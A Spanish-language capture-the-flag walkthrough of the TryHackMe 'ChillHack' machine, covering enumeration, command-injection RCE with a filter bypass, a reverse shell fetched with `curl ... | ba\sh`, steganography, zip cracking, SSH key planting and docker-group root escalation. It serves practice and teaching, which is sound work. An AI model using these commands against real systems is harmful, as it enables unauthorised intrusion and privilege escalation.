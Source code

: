 ```yaml
---
title: ChillHack
layout: post
post-image: "../assets/images/Rooms/ChillHack/chillhack.png"
description: Easy level CTF. Capture the flags and have fun!
difficulty: Fácil
enlace: https://tryhackme.com/r/room/chillhack
tags:
- Enumeración
- Web
- Reverse shell
- Privilege Escalation
---
```


Primero de todo, vamos a realizar un escaneo de los puertos de la dirección ip de la máquina víctima:
<div style="text-align: left;">
  <table>
    <tr>
      <td style="vertical-align: top;">
        <div style="text-align: center;">
          <img src="../assets/images/Rooms/ChillHack/image.png" alt="Untitled" onclick="openModal(this.src)" style="width:100%; max-width:500px;">
        </div>
      </td>
      <td style="vertical-align: top;">
        <div style="text-align: center;">
          <img src="../assets/images/Rooms/ChillHack/image 1.png" alt="Untitled" onclick="openModal(this.src)" style="width:100%; max-width:500px;">
        </div>
      </td>
      <td style="vertical-align: top;">
        <div style="text-align: center;">
        
          <img src="../assets/images/Rooms/ChillHack/image 2.png" alt="Untitled" onclick="openModal(this.src)" style="width:100%; max-width:500px;">
        </div>
      </td>
    </tr>
  </table>
</div>
![[image 1.png]]
![[image 2.png]]
Vemos que tiene abierto los puertos **21** (conexión servicio FTP), **22** (conexión servicio SSH) y **80** (página web no encriptada "http").

Primero, vamos a iniciar una conexión anónima en el servidor *FTP*, debido a que permite dicho tipos de conexiones:
![[image 3.png]]
Vemos que al iniciar sesión, y realizar un listado de los archivos encontramos un fichero **note.txt** que podemos descargar en nuestra máquina mediante el comando `get`.
![[image 4.png]]
Vemos que el fichero contiene dos usuarios **Anurodh** y **Apaar**.
Como aquí no podemos seguir haciendo nada, vamos a ver que encontramos la página web:
![[image 5.png]]
Como de costumbre, no encontramos nada a simple vista, por lo que vamos a realizar *fuzzing web* con `gobuster`:
![[image 6.png]]
Encontramos un directorio oculto, llamado `/secret` que si accedemos a él encontramos un campo donde podemos ejecutar código, por lo que estamos ante un *RCE*:
![[image 7.png]]
Si ejecutamos un comando más interesante como puede ser `cat /etc/passwd` obtenemos como resultado:
![[image 8.png]]
Podemos interceptar la petición del CRE mediante *burpsuite*, donde podemos enviar los comandos pero intentando bypassear la "protección", por ejemplo:
![[image 9.png]]
Hemos hecho un bypass del comando `ls -la` escapando la s, por lo que podemos llevarlo a la práctica con otros comandos:

![[image 10_1.png]]

![[image 10_2.png]]
Vemos que si escapamos el comando `cat /index.php` encontramos los comandos que no se pueden ejecutar de manera normal.
Por lo que, podemos intentar ejecutar una *reverse shell* desde la página web:
![[image 12.png]]
Ahora, en la web vamos a ejecutar el comando:
```bash
curl http://ip_nuestra/nombre_shell | ba\sh 
```
para poder obtener la *reverse shell* y seguido ejecutarla escapando el comando `bash`.

--- start-multi-column: ID_gb15
```column-settings
Number of Columns: 2
Largest Column: standard
```

![[image 13.png]]

Como resultado, tenemos que al escuchar y ejecutar la shell, estamos dentro del servidor.

--- column-break ---

![[image 14.png]]

--- end-multi-column
Ahora dentro, podemos intentar escalar privilegios. Por lo que podemos hacer uso del comando -> `sudo -l` para obtener los comandos que puede ejecutar como root el usuario *www-data*.
![[image 15.png]]

En efecto, vemos que el comando `/home/apaaar/.helpline.sh` pueden ejecutarlos todos los usuarios del sistema.
Como es un script escrito en **bash** podemos ver su contenido:
![[image 16.png]]

Y vemos que lo que realiza es una interacción, donde nos pide un nombre y un mensaje.
![[image 17.png]]

Si ejecutamos el comando especificando el usuario `-u apaar` y en el mensaje escribimos `/bin/bash` (ejecución de una terminal), esta se ejecutará como **apaar** (ya que hemos especificado su usuario).

Tratamiento de la tty (para poder tener una CLI más amigable):

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
(ctrl + Z)
stty raw -echo;fg
stty rows 29 columns 126
export TERM=screen
```

Procedemos a buscar la flag y la tenemos.
![[image 18.png]]

Ahora, para seguir continuando con el CTF, vamos a realizar una escalada de privilegios pero ahora a root, para poder conseguir así la última flag.
Podemos realizar una búsqueda de binarios (spoiler, no va a servir de nada).

Ya que estamos dentro del servidor podemos echarle un ojo a los puertos que tiene abierto y vemos que tiene en escucha uno muy raro -> `127.0.0.1:9001`.
![[image 19.png]]
![[image 23.png]]
Encontramos un panel de login, que puede cuadrar con el servicio *SSH* que hay corriendo por el puerto 22, por lo que podemos buscar el **id_rsa** del usuario **apaar** para poder iniciar sesión.

Pero primero, vamos a volver a hacer *fuzzing web* a esta web:
![[image 27.png]]
y vemos que tenemos un directorio llamado `/images`, si accedemos a él encontramos dos archivos, el que nos interesa es el '.jpg'.
![[image 28.png]]
```bash
wget hacker-with-laptop_23-2147985341.jpg
```
Como tenemos una imagen con extensión '.jpg' podemos hacer uso de `steghide` para poder encontrar información oculta en la imagen:
![[image 29.png]]
Y esto no da un archivo llamado 'backup.zip', el cual si queremos descomprimir nos pedirá una contraseña, la cual podemos intentar romper con un ataque de fuerza bruta, con `fcrackzip`:
![[image 30.png]]
Tenemos la contraseña del '.zip', vamos a abrirlo:
```bash
unzip backup.zip
nano source_code.php
```
![[image 31.png]]
Encontramos la contraseña del otro usuario **Anurodh**, la cual está encriptada en base64, la desencriptamos y nos la guardamos:
```bash
echo -e "contraseña_base64" | base64 -d
```

Y ahora si, vamos a proceder a obtener las claves *id_rsa* del usuario **apaar**, para ello vamos al directorio donde estas se almacenan:
```bash
cd /home/apaar/.shh
```
![[image 20.png]]
Vemos que no tenemos el **id_rsa** como tal, si no que tenemos un fichero llamado 'authorized_key' que son las claves permitidas y autorizadas para poder realizar la conexión vía *SSH*.
Pero nosotros podemos crear una clave e introducirla en dicho fichero ya que tenemos permisos de escritura en el mismo.
![[image 21.png]]

Con `ssh-keygen` podemos crear una clave para el usuario **apaar** y tenemos tanto el **id_rsa** (apaar) como el **id_rsa.pub** (apaar.pub).

A continuación, guardamos *apaar.pub* en el fichero 'authorized_keys' y apaar en un archivo *id_rsa* en nuestra máquina y podremos realizar nuestro inicio de sesión vía *SSH*.
![[image 22.png]]
Ahora que estamos dentro y previamente obtuvimos la contraseña del usuario **Anurodh**, mediante el comando `su Anurodh` y su contraseña nos convertiremos en dicho usuario:
![[image 33.png]]
![[image 34.png]]
Con el comando `id` vemos información acerca del usuario actual y vemos que pertenece al grupo **docker**, es decir, tiene permisos para poder ejecutar comandos Docker y puede acceder al *daemon* Docker.

Podemos buscar en [GTFObins/Docker](https://gtfobins.github.io/gtfobins/docker/#shell) un exploit para escalar privilegios y en efecto, hemos escalado privilegios, ergo somos usuarios root.
![[image 35.png]]
Hemos obtenido la root flag, por lo que hemos terminado el CTF.
___
